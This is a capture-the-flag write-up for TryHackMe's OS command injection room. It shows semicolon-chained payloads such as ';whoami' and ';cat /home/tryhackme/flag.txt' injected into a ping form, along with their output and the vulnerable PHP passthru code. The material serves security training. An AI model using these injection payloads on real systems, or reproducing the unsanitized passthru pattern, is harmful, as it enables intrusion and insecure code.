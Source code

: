 # oscommandinjection

### https://tryhackme.com/room/oscommandinjection
### Hein Andre Grønnestad
### 2021-10-10

---

## Task 5

We have access to the following web interface:

![](01-screenshot.png "")

This web tool can be used to ping an IP address. Let's try it:

![](02-screenshot.png "")

After waiting for the `ping`-command to finish, we get the following results back:

```
Here is your command: 127.0.0.1

Output:

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.029 ms 64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.030 ms 64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.028 ms --- 127.0.0.1 ping statistics --- 4 packets transmitted, 4 received, 0% packet loss, time 3061ms rtt min/avg/max/mdev = 0.015/0.025/0.030/0.006 ms
```

### Task 5 - What user is this application running as?

We need to try and execute the `whoami`-command through the web interface to see which user the web application is running as.

Let's start by guessing that the server side code looks something like this:

```php
echo system("ping $user_input");
```

So when we enter `127.0.0.1` it will look like this:

```php
echo system("ping 127.0.0.1");
```

We can only change the part that comes after `ping `.

The simplest thing would be to try to add an extra command to the input.

Let's try the follwing payload where we add another command by adding a `;` followed by a second command:

```
127.0.0.1;whoami
```

This is what we receive back. Notice the `{whoami_output}` at the end of the output:

```
Here is your command: 127.0.0.1;whoami

Output:

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.016 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.029 ms 64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.038 ms 64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.030 ms --- 127.0.0.1 ping statistics --- 4 packets transmitted, 4 received, 0% packet loss, time 3080ms rtt min/avg/max/mdev = 0.016/0.028/0.038/0.007 ms {whoami_output}
```

If we ommit the ip address we don't even have to wait for the `ping`-command to finish.

Payload:
```
;whoami
```

Output:
```
Here is your command: ;whoami

Output:

{whoami_output}
```

### Task 5 - What are the contents of the flag located in /home/tryhackme/flag.txt?

Payload:
```
;cat /home/tryhackme/flag.txt
```

Output:
```
Here is your command: ;cat /home/tryhackme/flag.txt

Output:

THM{**************************}
```

## Extra Credit

### Exfiltrate Web App Code

Payload:
```
;ls
```

Output:
```
Here is your command: ;ls

Output:

css img index.php js test.php
```

Payload:
```
;cat index.php
```

Output Screenshot:

![](03-screenshot.png "")

We can see the HTML-page renderen in the browser, but with the PHP-variables visible.

"View Page Source" gives us the following:

Output:
```php
// ... HTML template removed
<?php
if (isset($_GET["address"])) {
    $command = $_GET["address"];
    echo "<p><b>Here is your command: </b>$command</p>";

    echo "<p><b>Output: </b>$result</p>";

    $result = passthru("/bin/ping -c 4 ".$_GET["address"]);
}
?>
```

We can clearly see the vulnerable code:
```php
$result = passthru("/bin/ping -c 4 ".$_GET["address"]);
```


### Reverse Shell
We could probably get a reverse shell from the server as well.